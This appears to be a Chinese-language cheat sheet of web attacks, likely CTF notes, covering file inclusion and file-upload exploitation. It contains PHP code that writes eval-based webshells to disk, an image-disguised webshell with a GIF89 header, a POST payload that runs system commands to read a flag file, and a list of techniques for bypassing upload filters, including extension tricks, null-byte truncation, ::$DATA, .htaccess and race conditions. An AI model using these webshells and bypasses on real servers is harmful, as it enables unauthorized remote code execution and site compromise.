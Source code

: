 # 远程文件包含
```php
<?php
$a = "<?php eval(\$_POST['123'])?>";
$b = fopen("a.php","w") or die("123!");
fwrite($b,$a);
fclose($b);
echo "木马已生成.";    
echo '<br/>';
?>
//自动生成a.php,密码为123
```
```php
<?php
    $myfile = fopen("hack.php", "w");
    $txt = '<?php @eval($_POST["hack"]);?>';
    fwrite($myfile, $txt);
    fclose($myfile);
?>
```
# 文件上传
## 利用windows特性首先上传名称 
    1.php:.jpg
### 第二次再上传
    1.<
## 仅对windows服务器有效

## 制作图片马
    GIF89
    <?php @eval($_POST['gg']);?>  
## 上传图片马，使用文件包含
## hackbar使用post型传参
    gg=system('type C:\1\flag.txt');

# 文件上传绕过

1. js绕过

可以修改网页源代码，或者直接禁用js进行上传

2. 黑名单绕过

可以上传例如php1,php2,phtml等文件

3. 抓包绕过

上传1.jpg，在burp中修改回php再上传

4. 双写绕过

有的waf会判断你的后缀名是否符合规定，例如1.php，这时候waf会删除php，我们改为上传1.phpphp

5. 截断绕过

例如00截断等

6. 解析绕过

上传1.jpg，利用目录解析或者文件包含进行解析，或者上传 .htacess 等文件

7. 条件竞争绕过

上传1.php文件，利用bp抓包，设置多线程，不断发包；

浏览器访问连接我们上传的1.php文件；

不断刷新，会在某瞬间，执行1.php成功。

8. ::$DATA绕黑名单

文件名 .jsp::$DATA

9. 后缀绕过

asp: aspx asa asax ascx ashx asmx cer aSp

php: php2 php3 php4 php5 phtml pht html pHp

jsp: jspa jspx jsw jsv jspf jtml jSp
